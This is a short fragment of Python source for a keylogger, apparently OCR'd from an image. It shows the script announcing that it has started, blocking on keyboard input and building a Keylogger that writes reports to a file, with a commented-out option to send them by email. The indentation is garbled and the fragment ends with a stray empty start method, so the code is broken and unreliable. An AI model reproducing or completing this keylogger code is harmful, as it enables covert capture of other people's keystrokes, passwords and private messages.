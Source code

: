                         """The script makes a simple message."""

                        print(f"{datetime.now()} - Started key logger")

                        """The script blocks the current thread, then waits until CTRL+C is pressed"""

                        keyboard.wait()

                        if __name__ == "__main__":
                            """If you'd like the key logger to send to your email,
                            uncomment the below line:"""

                            """keylogger = Keylogger(interval=SEND_REPORT_EVERY, report_method="email)"""

                            """If you'd like the key logger to record key logs to a file, then
                            use your favorite sending method to save it:"""

                            keylogger = Keylogger(interval=SEND_REPORT_EVERY, report_method="file")

                            keylogger.start()

    def start(self):
        pass
